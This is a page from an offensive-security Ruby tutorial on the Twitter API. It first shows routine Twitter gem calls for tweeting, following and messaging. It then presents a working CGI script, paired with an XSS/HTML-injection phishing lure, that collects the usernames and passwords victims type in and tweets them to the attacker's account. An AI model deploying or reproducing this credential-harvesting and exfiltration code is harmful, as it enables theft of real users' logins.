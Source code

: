 # Twitter API

Dealing with Twitter's API is really useful for information gathering, taxonomy and social engineering. However, you have to have some keys and tokens in-order to interact with Twitter's APIs. To do so, please refer to the official [Twitter development page](https://dev.twitter.com/oauth/overview).

*   Install Twitter API gem

    ```
    gem install twitter
    ```

## Basic Usage

**rubyfu-tweet.rb**

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'twitter'
require 'pp'

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end

puts client.user("Rubyfu")                   # Fetch a user
puts client.update("@Rubyfu w00t! #Rubyfu")  # Tweet (as the authenticated user)
puts client.follow("Rubyfu")                 # Follow User (as the authenticated user)
puts client.followers("Rubyfu")              # Fetch followers of a user
puts client.followers                        # Fetch followers of current user
puts client.status(649235138585366528)       # Fetch a particular Tweet by ID
puts client.create_direct_message("Rubyfu", "Hi, I'm KINGSABRI")    # Send direct message to a particular user
```

![](<../../../.gitbook/assets/webfu\_\_twitterAPI1 (6) (1) (2).png>)

**Your turn**, tweet to @Rubyfu using above example. Tweet your code and output to **@Rubyfu**.

## Building Stolen Credentials notification bot

We're exploiting an XSS/HTML injection vulnerability and tricking users to enter there Username and Password. The idea is, We'll make a [CGI script](http://rubyfu.net/content/module\_0x4\_\_web\_kung\_fu/index.html#cgi) that takes that stolen credentials then tweet these credentials to us as notification or log system

```ruby
#!/usr/bin/ruby -w

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Referer!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts ""
```
